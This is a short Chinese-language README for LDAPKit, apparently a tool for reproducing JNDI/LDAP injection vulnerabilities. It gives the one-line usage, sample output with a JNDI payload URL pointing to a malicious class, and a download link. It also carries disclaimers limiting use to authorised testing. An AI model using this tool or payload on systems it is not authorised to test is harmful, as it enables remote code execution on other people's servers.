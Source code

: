 # LDAPKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

自用的`LDAP`工具（无高级用法仅支持简单的漏洞复现）

无需自行编译`Java`文件和开启`HTTP`服务，一切自动

只要一行：`java -jar LDAPKit.jar [命令]`

例如：`java -jar LDAPKit.jar notepad.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|
11:32:56 [INFO] [org.sec.Main] start jndi kit
11:32:56 [INFO] [org.sec.Main] cmd: notepad.exe
11:32:56 [INFO] [org.sec.Http] start http server: 0.0.0.0:8000
11:32:56 [INFO] [org.sec.Ldap] start ldap server: 0.0.0.0:1389
|--------------------------------------------------------|
|------Payload: ldap://127.0.0.1:1389/badClassName-------|
|--------------------------------------------------------|
```

然后......

[下载地址](https://github.com/EmYiQing/LDAPKit/releases/download/1.0/LDAPKit.jar)

## 免责申明

**未经授权许可使用`LDAPKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


